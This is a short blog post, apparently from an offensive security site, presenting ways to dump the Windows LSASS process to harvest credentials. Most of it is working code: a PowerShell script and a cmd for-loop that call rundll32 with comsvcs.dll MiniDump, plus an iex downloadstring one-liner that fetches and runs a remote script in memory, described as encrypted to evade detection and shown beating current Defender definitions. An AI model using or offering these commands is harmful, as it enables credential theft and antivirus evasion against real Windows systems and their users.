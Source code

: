```yaml
---
title:  "LSASS Encrypted Dump"
date:   2021-08-13 21:20:00 +0100
categories: [techniques]
tags: [windows, lsass]
---
```



There are many, many ways to dump the LSASS process in order to gather credentials and other sensitive information from systems.

Two ways I dump LSASS can be seen below.

The first way is to invoke comsvcs.dll with rundll32 - here is the original code with added zipping but not compressing the file as to not cuase potential corruption.

{% include codeHeader.html %}
```
$processes = Get-Process
$location = Get-Location
$dumpid = foreach ($process in $processes){if ($process.ProcessName -eq "lsass"){$process.id}}
	Write-Host "Found l s a s s process with ID $dumpid - starting dump with rundll32"
	Write-Host "Dumpfile goes to Get-Location\$env:COMPUTERNAME.bin"
	rundll32 C:\Windows\System32\comsvcs.dll, MiniDump $dumpid $location\$env:COMPUTERNAME.bin full | Out-Null
	Compress-Archive -Path $location\$env:COMPUTERNAME.bin -DestinationPath $location\$env:COMPUTERNAME.zip -CompressionLevel NoCompression
```


We can also encode and encrypt the script to make it harder to be detected and run it straight in memory via Invoke Expression.

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/sp00ks-git/PowerShell-Stuff/main/lsass-dump')
```


Another way is by using a for loop as follows:

```
for /f "tokens=1,2 delims= " ^%A in ('"tasklist /fi "Imagename eq lsass.exe" | find "lsass""') do C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump ^%B lsass.dmp full
```

![img-description](/images/lsass-1.png)
_LSASS Dumping with uptodate Defender Definitions"_


![img-description](/images/lsass-2.png)
_executing the script_


